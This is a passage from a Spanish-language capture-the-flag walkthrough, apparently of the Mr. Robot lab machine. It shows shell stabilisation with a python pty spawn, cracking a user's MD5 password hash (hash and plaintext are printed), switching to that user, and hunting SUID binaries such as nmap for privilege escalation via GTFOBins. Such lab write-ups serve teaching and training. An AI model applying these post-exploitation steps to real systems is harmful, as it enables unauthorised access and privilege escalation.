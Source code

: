 Y una vez con una sesión más estable, no nos permitirá hacer el tratamiento de la `tty`
Pero para ello tenemos otra opcion para hacerlo 

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

Esto nos permitira tener un promp en caso de que les de problemas el tratamiento de la `tty`

Ahora navegamos por los diccionarios y nos encontraremos con otro usuario :

```bash
cd /home
ls
robot
cd robot
ls
key-2-of-2.txt password.raw-md5
```

Si vemos que contiene el archivo `password.raw-md5` veremos que tiene una contraseña hasheada y un usuario `robot`

Cuando se encuentren en un caso así, lo más recomendable es usar **Jhon The Ripper**  o utilizar la página http://crackstation.net y pegamos el hash y nos mostrará la contraseña 

hash:
```hash
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Crackeado:
```md5
abcdefghijklmnopqrstuvwxyz
```

Ahora pivoteamos al usuario `robot` 

```bash
su robot
password: abcdefghijklmnopqrstuvwxyz
```

Ahora buscaremos binarios **SUID** para la escalada de privilegios 

```bash
find / -perm -4000 2>/dev/null
```

Encontramos binarios pero sobre todo hay uno que no deberia estar que es el de `nmap`

Nos podemos asegurar en la página de `GTFOBins` y como si nos aparece y deberíamos buscar por `SUID` ya que ejecutamos el comando -perm para encontrar binarios SUID

Pero en caso de que no entiendan o no les funcione el comando podemos buscar más información por internet tipo 

```search
nmap privilege escalation suid
```

